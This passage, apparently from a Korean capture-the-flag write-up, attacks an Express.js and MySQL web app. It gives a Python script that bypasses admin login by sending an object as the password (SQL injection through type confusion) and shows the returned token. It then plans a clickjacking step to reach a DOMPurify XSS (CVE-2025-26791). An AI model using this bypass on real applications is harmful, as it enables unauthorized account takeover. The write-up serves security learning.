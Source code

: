 원하는 type의 값을 넣을 수 있기 때문에 SQL Injection이 발생한다.

[Express.js + MySQL SQLi(RAON - Core Research Team)](https://core-research-team.github.io/2020-10-01/Expressjs)

```python
import requests as req

url = 'http://localhost:3000'

admin = req.Session()

res = admin.post(f'{url}/auth/login', json={
    'username': 'admin',
    'password': {'password': '1'}
})
print(res.text)
# {"message":"Logged in successfully.","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6IkFETUlOIiwiaWF0IjoxNzUzMzE0NTM1LCJleHAiOjE3NTMzMTgxMzV9.-Nq_m0IvZFHE4_BF4eXr1Sag4NClSrg5qd5EVtA5TFQ"}
```

이제 모든 기능을 사용할 수 있다!

### 2. Click Jacking

우선 post에서 직접 XSS를 발생시키는 방식은 `Dompurify.sanitize()` 때문에 불가능하다. 하지만 `/admin/test` 에서는 구글링을 통해 XSS ([CVE-2025-26791](https://nvd.nist.gov/vuln/detail/CVE-2025-26791))가 가능하다는 것을 알 수 있다.

따라서 `/post/${post_id}`에 방문한 bot을 `/admin/test` 로 이동시킬 방법을 생각해야 한다. (Open Redirect, **Click Jacking**, etc.)

```jsx
// app/routes/post.js:44:68
router.get("/:post_id", async (req, res) => {
  const post = await getPostById(req.params.post_id);

  if (!post) return res.status(404).json({ message: "Post Not Found." });

  const window = new JSDOM("").window;
  const DOMPurify = createDOMPurify(window);

  const config = {
    FORBID_TAGS: ["meta", "iframe"],
    FORBID_ATTR: ["onerror", "onload", "onclick"],
  };

  const sanitizedTitle = DOMPurify.sanitize(post.title, config);
  const sanitizedContent = DOMPurify.sanitize(post.content, config);

  res.render("post/view", {
    post: {
      post_id: post.post_id,
      title: sanitizedTitle,
      content: sanitizedContent,
      theme: post.theme,
    },
  });
});
```
